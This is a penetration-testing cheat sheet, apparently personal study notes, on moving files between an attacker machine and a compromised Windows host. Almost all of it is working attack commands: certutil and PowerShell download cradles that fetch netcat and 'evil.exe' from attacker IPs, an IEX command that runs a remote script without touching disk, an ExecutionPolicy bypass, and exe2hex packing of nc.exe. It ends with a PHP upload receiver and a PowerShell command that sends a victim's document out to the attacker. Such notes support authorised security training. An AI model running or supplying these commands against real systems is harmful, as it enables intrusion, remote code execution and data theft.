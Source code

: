 # Windows File Transfers

* FTP on attacker machine
- Can also use tftp for file transfers  


### Easiest file transfer methods
**Attacker -> Victim machine**
1. On attacking Machine: `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`
	On Windows victim Machine: `copy \\192.168.49.80\kali\winPEAS.bat .`

2. certutil -urlcache -f  `<url>` `<executable>`
```
CMD='cmd.exe /c certutil.exe -f -urlcache -split http://192.168.119.167:80/nc.exe c:\Users\Administrator\Desktop\nc.exe'
```

3. Let’s download this file to our Kali box using SCP. Start a SSH server if it is not already running

```
systemctl start ssh.socket 
```
To transfer a local file from your current machine to a remote host, you would run the following command
```
scp localfile user@192.168.178.27:remotefile
```

### Another Method
```
C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1 C:\Users\Offsec> echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1 C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1 C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1
```


Run the above using `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoPro file -File wget.ps1`  
Powershell default exec policy is restriction, no logo to not seee logo and nopro for prevention of loading default profile

Can do the same in one line without creating a file:   
`c> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http:/ /10.11.0.4/evil.exe', 'newexploit.exe')`


Can also execute a file without saving it to disk:
`powershell.exe IEX (New-Object System.Net.WebClient).DownloadString(' http://10.11.0.4/helloworld.ps1')`


### Windows Downloads with exe2hex and PowerShell
**Attacker - Victim machine**
Compress a binary, then convert to a hex string, embed to a windows script
Can use UPX: PE compression tool

On attacker machine: `upx -9 nc.exe`
`exe2hex -x nc.exe -p nc.cmd`
Transfer the nc file and on the windows host, run `powershell -Command "$h=Get-Content -readcount 0 -path './nc.hex';$l=$ h[0].length;$b=New-Object byte[] ($l/2);$x=0;for ($i=0;$i -le $l-1;$i+=2){$b[$x]=[byte ]::Parse($h[0].Substring($i,2),[System.Globalization.NumberStyles]::HexNumber);$x+=1}; set-content -encoding byte 'nc.exe' -value $b;Remove-Item -force nc.hex;"`
command above can be found in the nc.cmd 


### Windows uploads using scripting languages
**Victim - Attacker machine**
On attacker kali machine, start an apache server and create an uploads directory. Change owner to www-data
```
<?php	
$uploaddir	=	'/var/www/uploads/';
$uploadfile	=	$uploaddir	.	$_FILES['file']['name'];	
move_uploaded_file($_FILES['file']['tmp_name'],	$uploadfile)	?>	
```

From windows machine: `powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')`

